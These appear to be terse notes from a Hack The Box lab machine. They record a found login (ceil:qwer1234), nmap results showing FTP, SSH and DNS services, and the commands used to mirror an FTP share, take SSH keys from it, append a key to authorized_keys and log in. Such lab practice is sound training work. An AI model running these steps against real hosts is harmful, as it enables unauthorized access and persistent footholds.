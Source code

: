 # fingerprints
(fin) ssh-ed25519: SHA256:AtNYHXCA7dVpi58LB+uuPe9xvc2lJwA6y7q82kZoBNM
(fin) ssh-rsa: SHA256:gYf8woxUQ0oVmCnny4K4fmsnijf3aZcdeZGb2kKxPUQ

ceil:qwer1234

ssh -o PubkeyAuthentication=no -o PreferredAuthentications=password -v ceil@$TARGET

21/tcp   open  ftp     ProFTPD
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f4c8f10f1aebecd31247ca14eab846d (RSA)
|   256 7b30376750b9ad91c08ff702783b7c02 (ECDSA)
|_  256 889e0e07fecad05c60abcf1099cd6ca7 (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
2121/tcp open  ftp     ProFTPD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


wget -m --no-passive ftp://ceil:qwer1234@10.129.232.204:2121

tree .

cd $TARGET\:2121/

ls -latr

cd .ssh/

ssh-copy-id ceil@$TARGET

cat id_rsa.pub | ssh ceil@$TARGET "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"

chmod 600 id_rsa
chmod 600 id_rsa.pub

ssh -i /home/htb-ac-786011/10.129.232.204:2121/.ssh/id_rsa ceil@$TARGET
